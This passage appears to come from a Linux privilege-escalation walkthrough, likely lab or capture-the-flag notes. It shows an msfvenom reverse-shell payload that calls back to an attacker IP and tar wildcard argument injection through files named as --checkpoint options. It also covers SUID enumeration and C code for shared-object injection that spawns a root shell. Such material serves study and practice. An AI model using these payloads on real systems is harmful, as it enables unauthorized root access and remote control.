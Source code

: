 ```bash
root@gr4n173:~$ msfvenom -p linux/x64/reverse_tcp LHOST=10.10.14.175 -f elf -o shell.elf
```


Now we have to copy this file to the remote/vulnerable machine that can be done using `scp`.

```bash 
root@gr4n173:~$ scp /home/localuser/filename remoteuser@ipaddress:/home/user/
```


After shell.elf is downloaded to vulnerable box then set the permission over there.
```bash
root@gr4n173:~$ chmod +x /home/user/shell.elf
```

Create these two files in /home/user:

```bash 
root@gr4n173:~$ touch /home/user/--checkpoint=1  
root@gr4n173:~$ touch /home/user/--checkpoint-action=exec=shell.elf
```


When the tar command in the cron job runs, the wildcard (\*) will expand to include these files. Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options rather than filenames.

Now final part is to set the listner in local machine then you can get the shell after certain minute.

## 5. SUID/SGID Executables
### Known Exploits
Inorder to find all the SUID/SGID executables on debian we can run 
```bash
root@gr4n173:~$ find / -perm -u=s -type f 2> /dev/null
```


Then after this we can search the exploit related to the version of executables then get the root shell.

### Shared Object Injection

```c
$ shared object injection C code
libcalc.c 
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
        setuid(0);
        system("/bin/bash -p");
}
```
At first we have to identify the executables and vulnerable to `shared object injection`. For this we use the same technique with `find` and the strace the `so`
file
```bash
root@gr4n173:~$ strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```
